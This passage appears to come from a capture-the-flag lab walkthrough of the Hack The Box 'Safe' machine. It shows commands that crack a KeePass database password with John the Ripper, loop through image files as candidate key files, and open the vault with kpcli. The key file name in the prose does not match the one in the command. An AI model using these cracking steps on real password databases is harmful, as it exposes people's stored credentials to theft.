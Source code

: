 ```text
john --format=KeePass -w /usr/share/wordlists/rockyou.txt hash.txt
```

It doesn’t crack the password. It is possible that they’re using a key file. Since the directory did have a bunch of images, one of these images can be the key file.

```text
for i in *.JPG; do echo "*******Key File: $i"; keepass2john -k $i MyPasswords.kdbx > new-hashes.txt | john --format=KeePass -w /usr/share/wordlists/rockyou.txt new-hashes.txt; done
```

The above code loops through all the images as key files and generates the hash. Then it passes that hash to JtR. We get back the following result.

![](../images/max/755/1*ARnNV9K6WCEPzMf1assiTA.png)

The key file is “_IMG\_0567.JPG_” and the password is “_bullshit_”. Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the kpcli program.

```text
root@kali:~/Desktop/htb/safe/user-home# kpcli --kdb MyPasswords.kdbx --key IMG_0547.JPG
Please provide the master password: *************************KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.kpcli:/> ls
=== Groups ===
MyPasswords/
kpcli:/> cd MyPasswords/
kpcli:/MyPasswords> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
```